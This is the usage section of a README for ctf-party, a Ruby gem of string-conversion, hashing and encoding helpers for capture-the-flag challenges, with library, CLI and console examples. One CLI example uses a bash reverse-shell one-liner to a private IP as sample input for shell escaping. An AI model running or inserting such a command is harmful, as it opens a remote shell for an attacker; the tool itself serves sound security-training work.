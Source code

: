 # Usage

## Library

For base64 encoding instead of writing:

```ruby
require 'base64'

myvar = 'string'
myvar = Base64.strict_encode64(myvar)
```

Just write (shorter and easier to remember):

```ruby
require 'ctf_party'

myvar = 'string'
myvar.to_b64!
```

For base64 verification instead of writing:

```ruby
reg = %r{\A(?:[a-zA-Z0-9+/]{4})*(?:|(?:[a-zA-Z0-9+/]{3}=)|
      (?:[a-zA-Z0-9+/]{2}==)|(?:[a-zA-Z0-9+/]{1}===))\Z}xn
reg.match?('SGVsbG8gd29ybGQh')
```

Just write:

```ruby
'SGVsbG8gd29ybGQh'.b64?
```

For hash/digest instead of writing:

```ruby
Digest::SHA2.new(512).hexdigest('mystr')
```

Just write:

```ruby
'mystr'.sha2_512
```

For rot/rot13/ceasar cipher simply use:

```ruby
'mystr'.rot13
'mystr'.rot(shift: 11)
```

For generating a flag respecting a flag format:

```ruby
String.flag = {prefix: 'sigsegv', digest: 'md5'}
'this_1s_a_fl4g'.flag # => "sigsegv{a5bec9e2a86b6b70d288451eb38dfec8}"
```

See more methods at https://noraj.github.io/ctf-party/yard/

## CLI

Most of the methods are available as commands CLI tool:

```
$ ctf-party 'security' to_hex
7365637572697479

$ ctf-party 'NzQ2Zjc0NmY=' from_b64 hex2bin
01110100011011110111010001101111
```

Use native ruby String methods as well as those from ctf-party:

```
$ ctf-party 'id; /bin/bash -i >& /dev/tcp/192.168.1.14/9999 0>&1' shellescape
id\;\ /bin/bash\ -i\ \>\&\ /dev/tcp/192.168.1.14/9999\ 0\>\&1

$ ctf-party noraj capitalize reverse
jaroN
```

It's possible to read from STDIN:

```
$ curl -s https://example.org | ctf-party - htmlescape
&lt;!doctype html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;Example Domain&lt;/title&gt;
...
```

It's possible to apply the transformation to each row instead of the whole string:

```
$ seq 1 10 | ctf-party - to_b64 --row
MQ==
Mg==
Mw==
NA==
NQ==
Ng==
Nw==
OA==
OQ==
MTA=

$ curl -s https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Malware/conficker.txt | ctf-party - leet md5 --row
dcddb75469b4b4875094e14561e573d8
29c3eea3f305d6b823f562ac4be35217
dd4b21e9ef71e1291183a46b913ae6f2
6fb42da0e32e07b61c9f0251fe627a9c
b0baee9d279d34fa1dfd71aadb908c3f
96e79218965eb72c92a549dd5a330112
7fa8282ad93047a4d6fe6111c93b308a
...

$ cook 'ABC*1-10' | ctf-party - alternatecase succ --row
aBd
aBcAbD
aBcAbCaBd
aBcAbCaBcAbD
aBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbD
aBcAbCaBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbCaBcAbD
aBcAbCaBcAbCaBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbCaBcAbCaBcAbD
```

## Console

It launches `irb` with the library loaded.

```
$ ctf-party_console
irb(main):001:0>
```
